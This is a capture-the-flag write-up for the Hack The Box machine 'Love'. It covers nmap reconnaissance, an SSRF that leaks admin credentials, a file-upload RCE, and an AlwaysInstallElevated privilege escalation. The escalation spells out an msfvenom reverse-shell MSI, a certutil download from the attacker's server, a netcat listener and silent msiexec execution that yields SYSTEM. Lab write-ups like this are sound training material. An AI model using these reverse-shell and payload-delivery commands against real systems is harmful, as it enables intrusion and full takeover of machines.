




Walkthrough¶
Attack Scenario Diagram¶

Recon¶
nmap¶
~/tmp/htb/exploit
nmap 10.10.10.239 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-02 09:46 +04
Nmap scan report for 10.10.10.239
Host is up (0.43s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql?
| fingerprint-strings:
| NULL:
|_ Host '10.10.14.23' is not allowed to connect to this MariaDB server
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=5/2%Time=608E3CB1%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.23'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
From nmap we found new sub-domain: staing.love.htb
Web Enumeration¶
staging.love.htb¶
We found a web page that scans files be passing URLs at http://staging.love.htb/beta.php from it I was able to read local host service http://127.0.0.1:5000 , after reading the file source code I was able to obtain admin login credentials:

admin:@LoveIsInTheAir!!!!
Then used the credentials to login to the main web page 
love.htb¶
Found that the website is running Voting System
Exploitation¶
File Upload RCE¶
link: https://www.exploit-db.com/exploits/49445
Exploit:
...
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.x" # Reverse shell IP
REV_PORT = "9001" # Reverse port
# --------------------------------
...

Post Exploitation¶
After gaining access into the box as phoebe user we can read user.txt flag.
C:\Users\Phoebe\Desktop>more user.txt
more user.txt
6c1971cf2a4dfdb4684c14cf8246e129
Privilege Escalation¶
Winpeas¶
First of all, I uploaded winpeas into the target machine and run it. And found interesting output.
....
[+] Checking AlwaysInstallElevated
[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
AlwaysInstallElevated set to 1 in HKLM!
AlwaysInstallElevated set to 1 in HKCU!
...
Always Install Elevated¶
When checking user privileges, we will found that the user have SeChangeNotifyPrivilege
c:\Windows\Temp>whoami /priv
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ==================================== ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
c:\Windows\Temp>
Furthermore, from Winpeas we Identified that the user also having Always Install Evevated privileges so we can abuse it to escluate our privileges.
See the following link: https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated
Exploitation Process
- Generate a reverse shell payload using
msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.x LPORT=9002 -f msi -o reverse.msi
-
Upload it to the target machine
-
Local
python3 -m http.server 8888 -
Target
certutil -urlcache -f http://10.10.14.x:8888/reverse.msi reverse.msi -
Open netcat listener in your local machine
nc -nlvp 9002
- Exec the uploaded payload using
msiexec
msiexec /quiet /qn /i reverse.msi
After execution we will receive remote connection back as administrator.
nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.239] 54407
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
whoami
nt authority\system
The box is pwned! now we can read root.flag and submit it.